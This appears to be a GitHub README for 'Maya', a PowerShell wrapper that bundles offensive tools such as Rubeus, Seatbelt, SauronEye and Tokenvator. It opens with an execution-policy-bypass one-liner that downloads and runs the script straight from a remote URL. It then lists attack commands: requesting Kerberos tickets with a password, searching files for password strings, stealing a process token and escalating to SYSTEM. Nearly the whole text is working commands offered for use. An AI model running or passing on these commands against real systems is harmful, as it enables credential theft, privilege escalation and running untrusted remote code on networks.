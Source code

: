 # Maya
*Non Powershell based tools wrapped in PowerShell!*

Import-Module ./Maya.ps1

Maya

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Maya/main/Maya.ps1'))

###################################

Follow the on screen instructions:
e.g.

Maya -Rubeus -Command "klist"

Maya -Rubeus -Command "asktgt /user:MNDC /password:ComputerPassword /domain:mitnick.in /dc:MNDC.mitnick.in /nowrap"

Maya -Seatbelt -Command "-group=user"

Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"

Maya -SauronEye -Command "--filetypes .xml .txt .doc .docx .xls .ps1 --keywords pass"

Maya -Tokenvator

Maya -Tokenvator -Command "Sample_Processes"

Maya -Tokenvator -Command "Steal_Token 1156 cmd.exe"

Maya -Tokenvator -Command "GetSystem"

Maya -Tokenvator -Command "WhoAmI"

Maya -Tokenvator -Command "info"

Maya -Rubeus -Command "klist"

Get-GPOReport -All -ReportType XML -Path "c:\Temp\gporeport.xml"

Then,
Maya -grouper2 -Command "-Path c:\Temp\gporeport.xml"
